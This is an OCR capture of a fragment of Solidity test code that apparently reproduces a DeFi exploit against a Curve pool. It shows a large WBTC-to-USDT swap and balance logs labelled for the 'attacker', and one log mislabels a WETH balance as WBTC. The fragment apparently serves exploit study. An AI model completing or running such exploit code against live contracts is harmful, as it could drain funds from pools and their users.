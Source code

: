 │       usdt.balanceOf(address(curveVyper_contract))                                                                                                                                                                                                   │
│     );                                                                                                                                                                                                                                               │
│     curveRegistry.exchange(                                                                                                                                                                                                                          │
│       address(curveVyper_contract),                                                                                                                                                                                                                  │
│       address(WBTC),                                                                                                                                                                                                                                 │
│       address(usdt),                                                                                                                                                                                                                                 │
│       2677500000000,                                                                                                                                                                                                                                 │
│       0,                                                                                                                                                                                                                                             │
│       address(this)                                                                                                                                                                                                                                  │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After swap, USDT balance of attacker:",                                                                                                                                                                                                       │
│       usdt.balanceOf(address(this))                                                                                                                                                                                                                  │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After swap, WBTC balance of CRV3Pool:",                                                                                                                                                                                                       │
│       WBTC.balanceOf(address(curveVyper_contract))                                                                                                                                                                                                   │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After swap, WBTC balance of CRV3Pool:",                                                                                                                                                                                                       │
│       WETH.balanceOf(address(curveVyper_contract))                                                                                                                                                                                                   │